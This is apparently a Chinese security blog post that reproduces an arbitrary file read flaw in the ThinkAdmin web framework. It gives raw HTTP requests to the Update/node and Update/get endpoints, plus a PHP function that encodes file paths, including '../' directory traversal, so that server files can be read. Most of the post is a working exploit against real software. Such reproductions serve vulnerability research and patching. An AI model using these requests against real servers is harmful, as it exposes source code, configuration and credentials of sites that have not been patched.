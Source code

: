 ```yaml
---
categories:
    - 漏洞复现
tags:
    - 漏洞复现
	- Thinkadmin
---
```

## Thinkadmin 任意文件读取复现



```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
Connection: close
Referer: http://xxx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1

rules=["./"]
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/001.png)

主要读取文件url:是经过函数加密的

```
GET /admin.html?s=admin/api.Update/get/encode/1b34392q302x2r1b2x322s2t3c1a342w34 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://xx/admin.html?s=admin/api.Update/node
Cookie: PHPSESSID=bcfcc345c9a2ffbd53edad34794d0c71
Upgrade-Insecure-Requests: 1


```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/002.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/003.png)

文件名加解密函数如下，可以将想读取的文件经过encode函数加密后进行读取，读取内容是base64加密的：  
需要注意读取文件要加上`/public/`,同时可以通过`../`跨目录读取

```
<?php

function encode($content)
    {
		$length = strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content));
        $chars ='';
        for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
        return $chars;
    };
echo encode("/public/index.php")."<br>";

function decode($content)
    {
        $chars = '';
        foreach (str_split($content, 2) as $char) {
            $chars .= chr(intval(base_convert($char, 36, 10)));
        }
        return iconv('GBK//TRANSLIT', 'UTF-8', $chars);
    };
echo decode("1b34392q302x2r1b2x322s2t3c1a342w34");
?>
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/004.png)


github 源文件地址：

```
https://github.com/zoujingli/ThinkAdmin/blob/v6/app/admin/controller/api/Update.php
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/005.png)

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/006.png)

```
https://github.com/zoujingli/ThinkAdmin/blob/05711afcdcd0c87fcbf65a614281941a457b0863/vendor/zoujingli/think-library/src/common.php#L163
```

![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-18/007.png)